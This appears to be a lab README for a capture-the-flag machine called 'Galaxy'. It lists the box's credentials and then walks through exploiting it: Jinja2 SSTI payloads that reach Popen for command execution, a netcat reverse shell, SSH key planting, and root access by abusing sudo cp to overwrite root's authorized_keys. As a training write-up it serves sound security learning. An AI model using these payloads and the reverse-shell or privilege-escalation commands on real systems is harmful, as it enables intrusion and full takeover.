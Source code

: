 # [Galaxy]

## Introduction

This machine inspired from this bug bounty report: https://hackerone.com/reports/125980<br>
Galaxy is medium level machine with SSTI vulnerability and CVE-2019-14287 for root part. I suggest medium because getting shell is not straight forward it requires enumeration to get rce via SSTI, however players can do that by googling about SSTI. Player will learn about Popen subclassess and running multiple commands.
## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | Ab401c |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is restricted page vulnerable to SSTI
3) Register page username vulnerable to SSTI which happened in real world. This box inspired from https://hackerone.com/reports/125980
4) For root privilege I allowed /usr/bin/cp which players need critical thinking
5) There is other user besides `web` and `root` (john,mathew,lily) and this is dummy user which has no password. I set them for box story and player needs to critical thinking to get shell after finding out CVE-2019-14287

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/139af962-e96d-4f4b-bb40-642cbb41b017)

Enumerating subdomains and directories leads to nothing, let's register for discount! from /register directory
![image](https://github.com/user-attachments/assets/098e8733-963f-49a8-8a8f-4c62672cc313)

After registering we got the message and our username displayed in screen, since we do not have other attack vector let's try to find vulnerability from register page
<br>
After a long research we can find there is SSTI vulnerabilties!<br>
To exploit register with username: `user{{7+7}}`
![image](https://github.com/user-attachments/assets/2f0e3b44-2e52-4330-9346-6977ab12cbfd)


We need to know what template used, for that we use this formula:
![image](https://github.com/user-attachments/assets/14e9e059-81f0-45e6-b9bc-596ef8774d92)
<br>
Payload: `{{7*'7'}}`<br>
![image](https://github.com/user-attachments/assets/516558a4-bc09-473b-8984-ad5c9be9525d)


# Foothold

## Enumeration

We can confirm this is SSTI jinja2 vulnerability. After searching from [blogs](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and [PayloadAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md?ref=sec.stealthcopter.com) we need to find `Popen` class for rce<br>

1) First we need to find all classes<br>
Payload: `{{''.__class__.mro()[1].__subclasses__()}}`
![image](https://github.com/user-attachments/assets/a05c7c6e-0ba6-477f-80b3-156d00e34df4)
<br>
We have hundreds of classes including `Popen` which we will use for command execution

2) We need to find it's number for that we copy all of them paste it to `vi` then hit `ESC` and type: `:%s />/\r/g` and finally use `set number` command to sort them with numbers
![image](https://github.com/user-attachments/assets/bab7a081-9157-44d8-8411-e5240b4b7da1)

After using `set number` command inside `vi` we will search `Popen`:<br>
![Screenshot From 2025-03-01 14-04-30](https://github.com/user-attachments/assets/57e1a190-003f-42d1-a14d-b9f812f0e159)

We can see it is in number 522, let's confirm it<br>
<br>
To confirm we use this payload: `{{''.__class__.mro()[1].__subclasses__()[522]}}`
<br>
![image](https://github.com/user-attachments/assets/3ed0b098-5c14-44e9-b34b-69a269a5729b)


Next thing we need to use that process to gain command execution.
Payload: `{{''.__class__.mro()[1].__subclasses__()[522]('id',shell=True,stdout=-1).communicate()}}`
![image](https://github.com/user-attachments/assets/240c1cf0-f115-48d6-a940-1d3ba18c4a94)

We got a response!

Lastly to get shell we will use this payload:
````
{{''.__class__.mro()[1].__subclasses__()[522](['nc IP YOUR_PORT -e /bin/bash'],stdout=-1).communicate()}}
````
Don't forget to set netcat listener!<br>
![image](https://github.com/user-attachments/assets/bacd717c-624b-4d98-a2b5-dde2f0913929)

We got shell. Let's use ssh to get better shell<br>
We copy our public key to /home/web/.ssh/authorized_keys:
```
echo "your id_rsa.pub key" > /home/web/.ssh/authorized_keys
```
If you don't have generate using: `ssh-keygen -t rsa`<br>
After that we can login using our own private key located in /home/your_username/.ssh:
````
ssh -i id_rsa web@galaxy.htb
````
![image](https://github.com/user-attachments/assets/78d55493-9b75-416b-a3e8-91a59efb9a07)


# Privilege Escalation
There is README.txt file let's read it!
````
Dear developers!

We have ongoing "star map" project! We need to finish it as far as possible. 
User john has codes in his home directory start from these codes, but I can not disclose password of any user.
However all developers allowed to copy and paste project codes from devs directory of all user
Please do not store sensitive information in all /home/*/devs directory

Available codes:
/home/john/devs/star-map.js
/home/john/devs/star.html
/home/john/devs/stars.js
````
According to message we can copy everything from all /home/*/devs directory, we can confirm it by sudo rules:
![image](https://github.com/user-attachments/assets/12bd5b31-be6d-478a-ba27-91799c943cf2)
<br>
To get root user, we can copy pubic key of `web` user to the   `/root/.ssh/authorized_keys` locaton as a result we can use ssh without password<br>
Let's first copy our public key to the `devs` directory:
````
cp /home/web/.ssh/id_rsa.pub /home/web/devs/key
````
Then we will copy that public key from  `devs` directory to the `/root/.ssh/authorized_key` using root:
````
$ sudo /usr/bin/cp /home/web/devs/key /root/.ssh/authorized_keys 
$ ssh -i /home/web/.ssh/id_rsa root@192.168.0.107
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Feb 21 10:47:28 AM UTC 2025

  System load:  0.0               Processes:               109
  Usage of /:   44.8% of 7.79GB   Users logged in:         1
  Memory usage: 10%               IPv4 address for enp0s3: 192.168.0.110
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

16 updates can be applied immediately.
16 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Fri Feb 21 10:30:09 2025 from 192.168.0.110
root@galaxy:~#
````

